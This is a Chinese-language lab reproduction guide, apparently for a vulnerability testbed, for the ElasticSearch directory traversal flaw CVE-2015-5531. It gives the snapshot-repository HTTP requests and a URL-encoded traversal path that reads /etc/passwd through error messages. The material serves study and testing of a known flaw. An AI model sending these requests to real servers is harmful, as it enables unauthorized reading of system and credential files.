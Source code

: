 # ElasticSearch 目录穿越漏洞（CVE-2015-5531）

jre版本：openjdk:8-jre

elasticsearch版本：v1.6.0

影响版本：1.6.1以下

## 原理

参考文章

- https://www.exploit-db.com/exploits/38383/
- http://www.freebuf.com/vuls/99942.html

说明：

elasticsearch 1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

## 漏洞复现

### 1. 新建一个仓库

```
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}
```

![](1.png)

### 2. 创建一个快照

```
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
}
```

![](2.png)

### 3. 目录穿越读取任意文件

访问 `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](3.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![](4.png)
